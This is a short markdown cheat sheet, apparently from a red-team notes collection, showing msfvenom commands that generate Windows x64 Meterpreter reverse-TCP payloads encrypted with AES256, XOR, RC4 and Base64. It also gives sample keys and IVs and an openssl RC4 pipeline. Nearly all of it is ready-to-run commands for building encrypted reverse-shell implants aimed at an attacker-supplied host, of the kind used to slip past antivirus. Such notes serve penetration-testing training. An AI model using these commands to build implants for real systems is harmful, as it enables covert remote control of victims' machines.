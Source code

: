 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - command-line
  - windows
  - metasploit-framework
---
```

# MSFVenom

List of encryption methods.

```
$ msfvenom -l encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Generating and encrypting payloads using the `--encrypt` flags.

## AES256


> [!NOTE]
> For AES256 encryption that the key (using flag `--encrypt-key`) must be exactly 32 bytes of length and the IV (using flag `--encrypt-iv`) must be 16 bytes of length.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt aes256 --encrypt-key 0123456789abcdefghijklmnopqrstuv --encrypt-iv 1234567890abcdef -f c -o payload_aes.c
```

## XOR

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt xor --encrypt-key x0rk3y -f c -o implant_xor.c
```

## RC4

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt rc4 --encrypt-key "rc4passw0rd\!" -f c -o implant_rc4.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw | openssl enc -provider legacy -rc4 -nosalt -k "rc4passw0rd\!" -out implant_rc4.bin
```

## Base64

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt base64 -f raw
```

---
## References

### Rapid7

- [Rapid7: How to XOR with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-XOR-with-Metasploit-Framework-Compiler)

- [Rapid7: How to RC4 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decrypt-RC4-with-Metasploit-Framework-Compiler)

- [Rapid7: How to decode Base64 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler)